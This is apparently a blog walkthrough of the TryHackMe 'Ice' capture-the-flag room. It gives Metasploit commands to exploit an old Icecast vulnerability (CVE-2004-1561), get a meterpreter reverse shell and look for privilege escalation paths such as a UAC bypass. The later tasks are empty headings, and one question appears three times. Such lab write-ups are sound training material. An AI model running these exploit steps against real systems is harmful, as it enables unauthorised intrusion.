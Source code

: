 ```yaml
---
title: "TryHackMe Ice - Walkthrough"
toc: true
toc_label: "Table of Contents"
toc_icon: "list-alt"
toc_sticky: true
categories:
  - Blog
tags:
  - Cybersecurity
  - Windows
  - Penetration Testing
  - Ethical Hacking
  - TryHackMe
  - CTF
  - Privilege Escalation
  - Machines
#teaser: assets/images/thm/thm-ice-00.png  Path to the teaser image
tagline: "ICE - Tryhackme Walkthrough by Nisha."
header:
  overlay_filter: rgba(0, 0, 0, 0.5)
  overlay_image: /assets/images/thm-ice-0.png
  caption: "Photo credit: [**imgur**](https://imgur.com/6Ijftag)"
---
```



<h5>>Deploy & hack into a Windows machine, exploiting a very poorly secured media server. </h5>

<img src="/assets/images/thm/ice-1.png">
Room:<a href="https://tryhackme.com/r/room/ice"> https://tryhackme.com/r/room/ice</a>


{% include toc %}

## Task 1 - Connect 

Get connected to the TryHackMe network using OpenVPN. Make sure to first download your configuration file from <a href="http://tryhackme.com/access ">your access page. </a>



## Task 2 - Recon

Click on Start Machine to deploy the machine!

<img src="/assets/images/thm/thm-ice-2.png">

Time to Scan and Enumerate our target!


An NMAP scan reveals the following ports were discovered to be open:

<img src="/assets/images/thm/thm-ice-3.png">

<strong> Q: One of the more interesting ports that is open is Microsoft Remote Desktop (MSRDP). What port is this open on? </strong><br>
<em> Answer: 3389</em>




<strong> Q: What service did nmap identify as running on port 8000? (First word of this service) </strong><br>
<em> Answer: Icecast </em>

<img src="/assets/images/thm/thm-ice-4.png">


<strong> Q: What does Nmap identify as the hostname of the machine? (All caps for the answer) </strong><br>
<em> Answer: DARK-PC </em>

<img src="#">


## Task 3 - Gain Access

In this task we must find a way to exploit any vulnerable services on the target to gain a foothold. The cvedetails website reveals that the impact score and the CVE number for this vulnerability as displayed in the image below. 


<strong> Q: What is the Impact Score for this vulnerability? Use <a href="https://www.cvedetails.com">https://www.cvedetails.com> </a> for this question and the next.  </strong><br>
<em> Answer: 6.4 </em>

<img src="/assets/images/thm/thm-ice-6.png">


<strong> Q: What is the CVE number for this vulnerability?  </strong><br>
<em> Answer: CVE-2004-1561 </em>

It is time to use the information that we have collected to locate an exploit for our target.  We will use automation for this exploitation exercise with Metasploit being our tool of choice. 

Type "msfconsole" to launch the Metasploit Framework. <br>

<img src="/assets/images/thm/thm-ice-7.png">

<strong> Q: After Metasploit has started, let's search for our target exploit using the command 'search icecast'. What is the full path (starting with exploit) for the exploitation module? If you are not familiar with metasploit, take a look at the Metasploit module. </strong><br>
<em> Answer: exploit/windows/http/icecast_header</em>

<img src="/assets/images/thm/thm-ice-8.png">

<strong> # use exploit/windows/http/icecast_header </strong> <br>

<img src="/assets/images/thm/thm-ice-9.png">

<strong> # set RHOSTS <em>targetIPaddress </em> </strong> <br>
<img src="/assets/images/thm/thm-ice-10.png">

<strong> # set LHOST <em> attackerIPaddress or interface </em> </strong> <br>

<img src="/assets/images/thm/thm-ice-11.png">


<strong> # set LHOST <em> attackerIPaddress or interface </em> </strong> <br>

<strong> # exploit </strong> <br>

<img src="/assets/images/thm/thm-ice-12.png">



## Task 4 - Escalate

<h5> Our goal for this task is to complete any local enumeration to discover paths to escalte our privileges in our quest to gain Admin powers. </h5>


<strong> Q: Woohoo! We've gained a foothold into our victim machine! What's the name of the shell we have now? </strong><br>
<em> Answer: meterpreter </em>


<strong> > getuid </strong> <br>

<strong> Q: What user was running that Icecast process? The commands used in this question and the next few are taken directly from the 'Metasploit' module. </strong><br>
<em> Answer: Dark </em>




<strong> Q: What build of Windows is the system? </strong><br>
<em> Answer: 7601 </em>

<img src="/assets/images/thm/thm-ice-13.png">


<strong> Q:Now that we know some of the finer details of the system we are working with, let's start escalating our privileges. First, what is the architecture of the process we're running? </strong><br>
<em> Answer: x64 </em>


Now that we know the architecture of the process, let's perform some further recon. While this doesn't work the best on x64 machines, let's now run the following command `run post/multi/recon/local_exploit_suggester`. *This can appear to hang as it tests exploits and might take several minutes to complete* <br>

>  run post/multi/recon/local_exploit_suggester

<strong> Q: Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit? </strong><br>
<em> Answer: exploit/windows/local/bypassuac_eventvwr </em>

<img src="/assets/images/thm/thm-ice-14.png">


<strong> Q: What build of Windows is the system? </strong><br>
<em> Answer: 7601 </em>

<strong> Q: What build of Windows is the system? </strong><br>
<em> Answer: 7601 </em>



<img src="/assets/images/thm/thm-ice-15.png">
<img src="/assets/images/thm/thm-ice-16.png">

<img src="/assets/images/thm/thm-ice-17.png">
<img src="/assets/images/thm/thm-ice-18.png">



## Task 5 - Looting

## Task 6 - Post-Exploitation

## Task 7 - Extra Credit

